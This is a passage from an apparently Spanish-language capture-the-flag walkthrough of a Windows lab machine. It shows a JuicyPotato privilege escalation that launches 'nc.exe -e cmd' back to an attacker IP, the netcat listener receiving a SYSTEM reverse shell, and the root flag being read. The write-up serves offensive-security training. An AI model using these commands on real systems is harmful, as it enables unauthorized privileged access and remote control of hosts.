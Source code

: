 Nos ponemos en escucha en local `nc -nlvp 4646` y lanzamos el juicypotato en remoto:

```powershell
C:\Windows\Temp\Privesc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Windows\Temp\Privesc

21/02/2024  06:06     <DIR>          .
21/02/2024  06:06     <DIR>          ..
21/02/2024  06:06            347.648 JuicyPotato.exe
21/02/2024  06:06             45.272 nc.exe
               2 File(s)        392.920 bytes
               2 Dir(s)   1.415.892.992 bytes free

C:\Windows\Temp\Privesc>.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.23 4646"
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.23 4646"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Estando en escucha recibimos la reverse shell:

```sh
❯ nc -nlvp 4646
listening on [any] 4646 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.11] 51885
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

Vamos a C:\Users\Administrator\Desktop y encontraremos la flag:

```powershell
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Users\Administrator\Desktop

22/03/2017  09:02     <DIR>          .
22/03/2017  09:02     <DIR>          ..
20/02/2024  07:07                 34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   1.415.876.608 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
8e303daeb90625885b8dedb3624dfd12
```
